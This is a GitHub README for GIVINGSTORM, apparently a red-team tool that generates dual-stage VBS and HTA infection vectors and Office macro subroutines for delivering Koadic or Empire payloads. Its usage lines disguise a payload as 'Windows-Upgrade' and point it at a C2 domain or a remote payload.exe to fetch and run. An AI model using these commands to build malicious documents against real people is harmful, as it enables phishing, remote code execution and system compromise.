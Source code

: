 # GIVINGSTORM
The beginnings of a C2 framework. Currently without all the C2 stuff so far. Generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
GIVINGSTORM is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  python3 GIVINGSTORM.py -n Windows-Upgrade -p b64encodedpayload -c amazon.com/c2/domain

# HTA Example
![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/hta.png)

For the Macro Subroutine:
  python3 GIVINGSTORM.py -n Windows-Upgrade -e amazon.com/final/payload.exe

# Macro Example
![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/macro.png)
